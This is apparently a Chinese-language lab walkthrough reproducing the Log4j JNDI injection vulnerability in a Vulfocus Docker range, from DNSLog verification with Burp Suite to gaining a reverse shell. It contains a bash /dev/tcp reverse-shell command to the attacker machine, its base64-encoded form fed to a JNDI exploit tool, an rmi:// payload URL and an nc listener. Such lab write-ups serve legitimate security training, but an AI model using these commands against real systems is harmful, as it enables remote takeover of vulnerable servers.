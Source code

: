 ## 环境搭建

```tex
靶机：Ubuntu  5.4.0-117-generic   192.168.6.183
攻击机：Kali  5.16.0-kali7-amd64  192.168.6.212
#注：攻击机和靶机要在同一个网段上或者攻击机为公网IP(云服务器)，否则shell反弹回不去。
```

```tex
#首先拉一个docker镜像
docker pull vulfocus/vulfocus
#查看镜像
docker images
#启动
docker run -d -p 8081:80 -v /var/run/docker.sock:/var/run/docker.sock -e VUL_IP=172.16.124.129 vulfocus/vulfocus
```

![image-20220615180459219](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615180459219.png)

浏览器中访问目标IP的8081端口：

![image-20220615180708996](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615180708996.png)

查看镜像，将log4j漏洞的镜像拉取下来：

![image-20220615180810213](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615180810213.png)



## 漏洞复现

在首页启动log4j镜像：

![image-20220615182101483](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615182101483.png)

访问此地址：

![image-20220615182036599](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615182036599.png)

![image-20220615182119344](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615182119344.png)

进行DNSLog验证：

![image-20220615182820357](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615182820357.png)

点击get subdomain得到一个dns：72lrrx.dnslog.cn

使用bp对http://172.16.124.129:60067/页面抓包：

![image-20220615182943421](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615182943421.png)

修改参数：

![image-20220615183116754](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615183116754.png)

![image-20220615183331682](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615183331682.png)

发到reperter模块查看:

![image-20220615181936876](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615181936876.png)

放包：

![image-20220615183422142](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615183422142.png)

查看DNSLog页面，点击Refresh Record:

![image-20220615183517100](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220615183517100.png)

DNSLog网站收到解析记录，说明这里有log4j的漏洞。

## JNDI注入反弹shell：

利用JNDI注入工具在攻击机上开启JNDI服务器，在攻击机Kali中安装：

```tex
git clone https://github.com/sayers522/JNDI-Injection-Exploit.git
```

进入目录，使用mvn工具打包：

```tex
#未进行安装的话，安装mvn
apt install maven -y
#打包
mvn clean package -DskipTests
```

会生成一个target文件夹：

![image-20220616144703906](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220616144703906.png)

生成payload：

```tex
bash -i >& /dev/tcp/192.168.6.212/1234 0>&1
```

将其进行base64编码：

![image-20220616145203753](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220616145203753.png)

```tex
#生成payload
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjEyLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}" -A "192.168.6.212"
```

![image-20220616145303154](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220616145303154.png)

```tex
rmi://192.168.6.212:1099/ExploitBypass
```

反弹shell：

监听端口1234：

```tex
nc -lvvp 1234
```

![image-20220616101525358](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220616101525358.png)

将payload进行url编码：

![image-20220616202551584](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220616202551584.png)

放包，看是否反弹：

![image-20220616202622381](C:\Users\86182\AppData\Roaming\Typora\typora-user-images\image-20220616202622381.png)

反弹成功。
